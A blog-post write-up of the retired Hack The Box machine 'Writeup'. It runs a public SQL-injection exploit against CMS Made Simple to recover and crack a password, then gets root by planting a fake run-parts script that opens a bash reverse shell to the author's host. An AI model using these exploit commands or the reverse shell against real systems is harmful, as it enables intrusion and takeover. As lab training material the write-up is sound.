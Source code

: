 ```yaml
---
layout: post
title:  "HTB - Writeup"
date:   2020-06-01 20:00 +0100
tags: writeups
initial: 2019-09-01
---
```

Writeup for the retired HTB machine Writeup  
Link: https://www.hackthebox.eu/home/machines/profile/192  
IP: 10.10.10.138

<!--more-->

## Recon
Only Port 22 and 80 are open.
The page on Port 80 informs you that a DoS-Protection is in place, so no Dirbusting or Credential Stuffing are out of the question.  
Instead, the page can be spidered with Owasp-ZAP. This yields some interesting paths.
```
/robots.txt
/sitemap.xml
/writeup/
/writeup/index.php?page=ypuffy
/writeup/index.php?page=blue
/writeup/index.php?page=writeup
```


## Webserver
The `robots.txt` leads reveals the path `/writeup`, which doesn't seem to be DoS-Protected.  
Also, wappalyzer informs us that the site is built with *CMS Made Simple*.
By utilizing `searchsploit`, we find a SQL Injection for < 2.2.10.  

Important to note:  
Change the `TIME` variable if you're on a free instance!  


Now let it crack the password:

`python2 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/dirb/common.txt`

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
If called with *rockyou.txt*, the password `raykayjay9` is found, which enables us to log in as ssh user jkr, which ultimately leads to the user flag.


## Road to root

Enumerate and have a look what happens on the system with `pspy`. If watched closesly, one can observe that a dynamic MOTD is generated. This can be exploited with path loading order attack.  

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 

/usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d 
```
By examining the paths we see that `/usr/local/sbin` is writable. Simply place a script named `run-parts` there that opens a reverse shell to the own machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.13.125/9999 0>&1
```

On your own machine, run `nc -nvlp 9999` for a receiving end. The next time a user logs in, the shell is triggered. After that, the root.txt can be printed.

